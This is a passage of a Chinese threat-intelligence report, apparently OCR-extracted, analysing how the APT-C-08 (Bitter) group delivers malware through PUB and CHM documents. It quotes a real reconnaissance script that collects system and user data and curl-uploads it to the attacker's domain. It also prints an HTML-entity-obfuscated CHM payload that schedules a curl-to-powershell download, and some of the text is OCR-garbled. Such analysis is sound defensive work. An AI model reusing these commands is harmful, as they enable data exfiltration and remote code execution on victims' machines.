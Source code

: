![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/a06019e19db8dbda9211521d4adf6a44c803d8eba2f5cffe97895bf05b95c557.jpg)  

### 3.PUB文档  

今年我们捕获到蔓灵花组织使用双扩展名（.pdf.pub）的PUB（MicrosoftOfficePublisher）文档作为载体的攻击样本，该样本携带恶意宏代码，并且宏代码被加密，如下所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/070d161ee87726fc9f43f7a2c30c4f3e5a38b41c22bee20555a04f49b682fe75.jpg)  

点击启用宏后，会显示模糊的图片以此来迷惑受害者。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/0c4eefdb0c825cb990d9435d77b710f41c564fcd4ca83347dc184e5887bb8fbc.jpg)  

宏代码的功能为创建计划任务，定时下载文件并保存为C:\ProgramData\mki.rr，接着执行该文件，从宏代码来看下载的mki.rr也为脚本文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/dde9b82b42503872be3e13832761baf6670c9384fbc59d8d32afb8510fd81bd2.jpg)  

下载链銀接銀如銀下銀所銀示銀：https[:l//littlehipsononline.com/pbus.php? )o=%computername%00%username%  

我们还发现与该PUB文档具有相同域名littlehipsononline.com的CHM类型攻击文档，该文档的执行参数与PUB类型的也相似，推测两者后续流程一致，在对该CHM载荷进行分析时我们成功获取到了后一阶段载荷，CHM文档的执行参数如下所示：  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/7c7fcf032051327bfa0fbea6d2a28daf0292e531eaa1783300621a46e152b960.jpg)  

下载的fre.tr的功能是收集系统信息及一些用户和文件信息，如杀毒软件、当前的用户目录和用户名、系统详细信息、当前用户的下载、文档和桌面文件夹的内容和“C:\Users”目录中的用户信息发送到服务端。fre.tr的内容如下所示:  

(wmic/namespace:\\root\SecurityCenter2path AntiVirusProductget displayName& echo%userprofile%&echo %username%& -Systeminfo&dir %USERPROFILE%\Downloads&dir%USERPROFILE%\Documents&dir%USERPROFILE%\Desktop&dirC:\Users) $>$ -C:\Users\public\Music\trf.txt&&curl-XPoST-F"file=@C:\Users\public\Music\trf.txt" -https://ww.littlehipsononline.com/yvfrStar.php?oo=%computername%_%username%&delC:\Users\public\Music\trf.txt  

一个合理的猜测：对于此类型攻击，攻击者都是先下发一个收集用户信息的脚本，根据上传的受害者信息判断是否符合攻击目标，当目标符合时，攻击者在服务端将fre.tr替换成下载后门的脚本，那么受害者主机上的计划任务下次请求执行时就会下载后门并执行。  

### 4.CHM文档  

在我们捕获的蔓灵花组织使用的攻击载体类型中，CHM格式的样本数量占据大多数，可见该组织尤其钟爱这一类型的利用方式。不过该组织使用CHM载体的方式也较为简单，利用内嵌的HTM文档远程下载执行，具体到样本来看区别在于其混淆方式不同，具体如下所示:  

#### 类型一：近期使用最多的HTML实体编码类型  

# APT-C-08（蔓灵花）组织：多元攻击载体大揭秘  

classid="c1sid:&#×61:&#x64:&#x62:&#x38:&#x38:8#x30:&#x61:&#×36:&#x2d:&#×64:&#×38:&#x66:&#x66:&#x2d:&#×31:&#x -31:&#×63:&#x66:&#×2d:&#×39:&#×33:&#×37:&#×37:-   
&#×30:&#×30:&#x61:&#x61:&#x30:8#×30:&#×33:&#x62:&#x37:8#x61:&#×31:&#x31:"width=0height=0>   
<PARAMname-"Command"value="ShortCut">   
<PARAM name="Button"value="Bitmap::shortcut">   
<PARAMname="Item1"   
value="，&#x63:&#x6f:&#x6e；&#x68:&#x6f:&#x73:&#x74:&#×2c;&#x20;&#x2d:&#x2d;&#x68:&#x65:&#x61:&#x64:&#x6c;&#x6 -5:&#×73:&#×73:   
&#×63:&#×6d:&#×64:&#×20:&#×2f：&#×63:&#×20:&#×73:&#×63:&#x68:&#×74:&#x61:&#×73:&#x6b:&#×73:&#×2e:&#x65:&#×78： &#×65:&#×20:&#x2f:&#x63:&#x72:&#x65:&#x61:&#×74:&#x65:/tn   
&#×47:&#×6f:&#×6f:&#×67:&#×6c:&#×65:&#×45:&#×73:&#×73:&#×65:&#×6e:&#×74:&#×69:&#×61:&#×6c:&#×55:&#×70:&#×64: &#×61:&#×74:&#×65:&#×73:&#×53:&#×65:&#×72:&#×76:&#×69:&#×63:&#×65;&#×34:&#×2e;&#×33:&#×2e：&#×34:&#×33:&#×2e; &#x33:/f/scminute/mo&#x31:&#x38;/tr   
&quot:&#×63:&#x6f:&#×6e:&#×68:8#×6f:&#×73:&#×74:&#×20：&#×2d:&#×2d:&#x68:&#×65:&#×61:&#×64:&#×6c:&#×65:8#×73； &#×73：&#×20;&#×63:&#×6d;&#×64:&#×20:&#×2f：&#×63:&#×20:&#×63:&#×75;&#×72:&#×6c:&#×20;&#×2d:&#×73:&#×6f:&#×20; &#×2d:&#×20:&#×68:&#×74:&#×74:&#×70:&#×73:&#×3a:&#×2f:&#×2f:&#×77:&#×77:&#×77:&#×2e:&#×67:&#×6f:&#×63:&#×61: &#×72:&#×74:&#×77:&#×69:&#x6c:&#x6c:&#×69:&#×75:&#x6d:&#×2e;&#×63:&#x6f:&#x6d;&#×2f:&#×73:&#x69;&#x6d:&#×62: -8#×2e:&#×70:&#x68:&#x70:&#x3f:&#×6b:&#x6f:&#×3d:&#×25:&#×63:8#×6f:&#x6d:&#×70:&#×75:&#×74:&#×65:8#x72:&#x6e: &#×61:&#×6d:&#×65:&#×3a:&#×7e:&#×30:&#×2c:&#×32:&#×30:&#×25:&#×7c:&#×70:&#x6f:&#×77:8#×65:&#×72:&#×73:&#×68: -&#x65:&#x6c;&#x6c:&quot;">  
